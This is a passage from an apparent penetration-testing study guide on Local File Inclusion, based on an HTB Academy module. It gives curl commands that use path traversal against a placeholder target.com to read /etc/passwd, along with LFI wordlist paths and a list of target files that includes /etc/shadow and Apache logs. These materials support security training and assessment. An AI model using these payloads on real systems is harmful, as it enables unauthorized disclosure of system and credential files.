 ```bash
```

### Useful Commands
```bash
# Quick LFI test
curl -s "http://target.com/lfi.php?file=../../../../etc/passwd" | head -10

# Check file existence
curl -s "http://target.com/lfi.php?file=../../../../etc/passwd" | grep "root:"

# Extract specific information
curl -s "http://target.com/lfi.php?file=../../../../etc/passwd" | cut -d':' -f1,3,6
```

### Common LFI Wordlists
```bash
# SecLists wordlists
/opt/useful/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
/opt/useful/seclists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt
/opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt

# Custom wordlist creation
cat << 'EOF' > lfi_files.txt
/etc/passwd
/etc/shadow
/etc/hosts
/proc/version
/var/log/apache2/access.log
/var/log/apache2/error.log
EOF
```

---

*This guide covers fundamental Local File Inclusion techniques from HTB Academy's File Inclusion module, providing essential knowledge for penetration testing and web application security assessment.* 